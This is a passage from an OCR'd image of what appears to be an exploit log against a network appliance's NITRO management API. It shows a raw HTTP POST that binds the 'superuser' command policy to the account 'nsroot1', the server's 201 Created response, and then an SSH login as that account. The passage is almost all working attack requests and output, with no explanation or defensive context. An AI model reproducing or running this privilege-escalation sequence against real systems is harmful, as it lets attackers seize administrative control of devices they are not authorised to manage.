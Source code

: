     { "errorcode": 0, "message": "Done", "severity": "NONE" }
    request:binding superadmin policy
    POST /nitro/v1/config/systemuser_systemcmdpolicy_binding HTTP/1.1
    Host: www.0-sec.org:9080
    Content-Length: 83
    Cache-Control: max-age=0
    Accept: application/json
    rand_key: 845810655.1594556994263502
    NITRO_WEB_APPLICATION: true
    If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
    DNT: 1
    Content-Type: application/json
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
    Cookie: is_cisco_platform=-1; rdx_pagination_size=25%20Per%20Page; SESSID=6c5c31300c22b200f0273e7a13be47cb; startupapp=neo
    Connection: close

    object={"params":{"warning":"YES"},"systemuser_systemcmdpolicy_binding":{"policyname":"superuser","priority":"0","username":"nsroot1"}}
    response:binding superadmin policy
    HTTP/1.1 201 Created
    Date: Sun, 12 Jul 2020 12:55:27 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Access-Control-Allow-Origin: *
    Access-Control-Allow-Credentials: false
    X-XSS-Protection: 1; mode=block
    Content-Length: 57
    Keep-Alive: timeout=15, max=100
    Connection: Keep-Alive
    Content-Type: application/json; charset=utf-8

    { "errorcode": 0, "message": "Done", "severity": "NONE" }
    SSH
    ssh nsroot1@www.0-sec.org
    ###############################################################################
    #                                                                             #
    #        WARNING: Access to this system is for authorized users only          #
    #         Disconnect IMMEDIATELY if you are not an authorized user!           #
    #                                                                             #
    ###############################################################################

